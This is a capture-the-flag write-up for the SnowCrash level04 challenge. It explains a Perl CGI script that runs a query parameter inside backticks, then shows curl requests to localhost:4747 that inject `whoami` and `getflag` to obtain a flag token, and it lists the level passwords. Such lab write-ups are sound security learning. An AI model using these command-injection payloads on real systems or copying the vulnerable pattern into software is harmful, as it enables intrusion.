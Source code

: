 ## Level 04

Put the password for the level04.

```
qi0maab88jeaj46qoumi7maus
```

With a command of _ls_, we found a file written in perl script. <ins>This is a simple **CGI**(Common Gateway Interface) script that takes a parameter "x" from the query string adn prints the result of runnig the command specified by the parameter using the 'echo' commmand. <ins>

In summary, the script takes a parameter named "x" from the query string, uses it as a command, executes the command, and prints the result.

> **Note:**
> What is CGI? :
> _CGI, or Common Gateway Interface, is a standard interface that enables communication between a web server and external programs or scripts. It allows for the creation of dynamic web pages, processing user input, and interaction with databases._

```
level04@SnowCrash:~$ cat level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

<details>
  <summary> Details for the perl script </summary>

이 Perl 스크립트는 CGI(Common Gateway Interface) 스크립트로, 쿼리 문자열에서 "x"라는 매개변수를 가져와 해당 매개변수로 지정된 명령을 실행한 결과를 출력하는 간단한 CGI 스크립트입니다.

1. `#!/usr/bin/perl`: 이것은 해시뱅(해시 기호(#)와 느낌표(!)) 라인으로, 이 스크립트를 실행하기 위해 사용되어야 하는 Perl 인터프리터의 경로를 지정합니다.

2. `use CGI qw{param};`: 이 라인은 CGI 모듈에서 `param` 함수를 가져옵니다. `param` 함수는 쿼리 문자열에서 매개변수의 값을 가져오는 데 사용됩니다.

3. `print "Content-type: text/html\n\n";`: 이 라인은 "text/html" 형식의 콘텐츠임을 나타내는 HTTP 헤더를 전송합니다. 두 번의 개행(`\n\n`)은 헤더와 본문을 구분합니다.

4. `sub x { ... }`: 이것은 "x"라는 서브루틴(함수)을 정의합니다. 하나의 매개변수를 사용하고 그 값을 `$y` 변수에 할당합니다.

5. `$y = $_[0];`: 이 라인은 서브루틴에 전달된 첫 번째(이 경우에는 유일한) 인수를 `$y` 변수에 할당합니다.

6. `print `echo $y 2>&1`;`: 이 라인은 `$y`에 지정된 명령의 결과를 출력합니다. 역따옴표(`)는 명령을 실행하는 데 사용되며, `2>&1`은 표준 출력과 표준 에러를 모두 출력으로 리다이렉션하는 것입니다. 이는 일반 출력과 오류 메시지를 모두 캡처하는 일반적인 기술입니다.

7. `x(param("x"));`: 이 라인은 쿼리 문자열에서 "x" 매개변수의 값을 사용하여 "x" 서브루틴을 호출합니다.

요약하면, 이 스크립트는 쿼리 문자열에서 "x"라는 매개변수를 가져와 해당 값을 명령으로 사용하여 명령을 실행하고 결과를 출력합니다.

Below is the example of an error message based on our requests to a web server running on 127.0.0.1:4747 (The case that I omit the x parameter for intention to see the response.)

```
level04@SnowCrash:~$ curl '127.0.0.1:4747/level.pl?=`whoami`'
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL /level.pl was not found on this server.</p>
<hr>
<address>Apache/2.2.22 (Ubuntu) Server at 127.0.0.1 Port 4747</address>
</body></html>
level04@SnowCrash:~$ curl '127.0.0.1:4747/level.pl?=`getflag`'
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL /level.pl was not found on this server.</p>
<hr>
<address>Apache/2.2.22 (Ubuntu) Server at 127.0.0.1 Port 4747</address>
</body></html>
```

</details>

<br>

**Differences of using double quotes and backticks** in shell commandds within perl

So we can see the perl version 14 is on our shell.

```
level04@SnowCrash:~$ perl --version

This is perl 5, version 14, subversion 2 (v5.14.2) built for i686-linux-gnu-thread-multi-64int
(with 57 registered patches, see perl -V for more detail)
```

**1. Double quotes("")**

So, I run a command with a one parameter x as below with **""** (double quotes) . If that word is a string as "Hello world", it prints out the program as below, it treats the command as part of a string :

```
level04@SnowCrash:~$ ./level04.pl x="Hello world"
Content-type: text/html

Hello world
level04@SnowCrash:~$ ./level04.pl x="Hello Yooyoo"
Content-type: text/html

Hello Yooyoo
```

**2. Backticks(``)**
When you use backticks, the enclosed command is executed in a subshell, and its output is captured. **It treats the enclosed content as a shell command and executes it.**

```
level04@SnowCrash:~$ ./level04.pl x=`whoami`
Content-type: text/html

level04
level04@SnowCrash:~$ ./level04.pl x=`who`
Content-type: text/html

level02
level04@SnowCrash:~$ ./level04.pl x=`whom`
The program 'whom' can be found in the following packages:
 * mailutils-mh
 * nmh
Ask your administrator to install one of them
Content-type: text/html
```

> **Note:**
> PERL (Practical Extraction and Reporting Language) ? Perl is a high-level, general-purpose programming language that was originally developed for text manipulation and used extensively for system administration tasks.

> 1. Perl was initially designed for efficient text processing, making it well-suited for tasks involving regular expressions, string mainpulation, and file processing.

> 2. Perl has been traditionally used for system administration tasks, such as automating repetitive operations, managing files, and interacting with the operating system.

> 3. Perl has been historically popular for server-side scripting in web development. The CGI (Common Gateway Interface) protocol, which allows web servers to execute scripts, played a significant role in the early days of dynamic web content.

<br>

So, what if we add the same logic for the localhost:4747 ?
Nothing came out..

```
level04@SnowCrash:~$ perl localhost:4747
Can't open perl script "localhost:4747": No such file or directory
level04@SnowCrash:~$ ./level04.pl x=`localhost:4747`
localhost:4747: command not found
Content-type: text/html


level04@SnowCrash:~$ curl localhost:4747
```

Or, what if we run on our host with the port 4747?
Flag04 came out with the whoami parameter.

```
level04@SnowCrash:~$ curl '127.0.0.1:4747/level04.pl?x=`whoami`'

flag04
```

Maybe we can try again with x parameter with **getflag**. And here we go, we got the flag :)

```
level04@SnowCrash:~$ curl '127.0.0.1:4747/level04.pl?x=`getflag`'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

<details>
  <summary> Password </summary>
  ne2searoevaevoem4ov4ar8ap
  </details>
